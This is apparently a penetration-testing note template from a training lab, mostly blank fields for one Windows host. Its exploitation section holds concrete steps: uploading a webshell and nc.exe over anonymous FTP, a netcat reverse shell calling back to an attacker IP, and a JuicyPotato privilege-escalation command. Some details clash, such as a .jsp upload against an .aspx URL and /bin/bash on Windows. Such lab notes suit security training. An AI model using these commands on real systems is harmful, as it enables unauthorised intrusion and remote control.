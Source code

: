 # Summary
# Location
- IP Address: 10.11.1.13
## System Information
- OS: Windows
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th
Microsoft-IIS/8.5

# Exploitation
## Exploit 1
- Title: FTP Anonymous
1. Upload a webshell.jsp, nc.exe
2. Visit the http://10.11.1.13:4167/aspxshell.aspx
3. Attacker: nc -nlvp 4444
3. Target: nc.exe 192.168.45.245 -e /bin/bash

## Exploit 2
JuicyPotato

JuicyPotato.exe -t * -p myshell.bat -l 4443
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
